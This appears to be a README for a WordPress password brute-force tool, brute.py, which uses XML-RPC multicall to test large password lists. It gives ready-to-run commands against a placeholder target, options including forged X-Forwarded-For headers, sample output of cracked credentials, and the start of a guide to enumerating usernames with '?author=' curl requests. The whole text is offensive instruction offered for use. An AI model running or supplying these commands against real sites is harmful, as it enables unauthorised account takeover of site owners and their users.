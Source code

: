 ### `brute.py` - Password Brute Force

Tests password lists against WordPress user accounts using the XML-RPC multicall method.

```bash
python brute.py <URL> <password_file> <username1> [username2]... [options]
```

**Example:**

```bash
python brute.py https://target.is ../wordlist.txt admin editor
python brute.py https://target.is passwords.txt admin --debug --wait-time 2.0 --header "X-Forwarded-For: 192.168.1.1"
```

**Options:**

- `--header/-H` - Custom HTTP headers (can be used multiple times)
- `--wait-time` - Wait between requests in seconds (default: 1.0)
- `--debug` - Enable debug logging
- `--log-file` - Custom log file path (default: brute_logs.txt)
- `--chunk-size` - Password chunk size for reading (default: 500)

**Features:**

- Tests up to 2000 passwords per request using multicall, depending on the target's server limitations.
- Automatically validates positive results individually
- Includes rate limiting and error handling
- Works with wordlists generated by the parent directory tool

**Example Output:**

```
[*] Testing user: admin
[*] Tested 500/6418 passwords. Last attempt: sumaradmin321 -> FAILED
[*] Tested 1000/6418 passwords. Last attempt: sumar321- -> FAILED
[*] Testing user: editor
[*] Tested 500/6418 passwords. Last attempt: editorpass -> FAILED
[+] SUCCESS! Username: editor, Password: sumareditor2023
[*] Validating credentials individually...
[+] CONFIRMED! Username: editor, Password: sumareditor2023
[*] Attack completed in 45.67 seconds
```

## Username Enumeration Techniques

Before running brute force attacks, you need to identify valid usernames. Here are several methods:

### 1. Author Parameter (`?author=1`)

WordPress exposes usernames through author pages:

```bash
curl "https://target.is/?author=1"
curl "https://target.is/?author=2"
curl "https://target.is/?author=3"
```
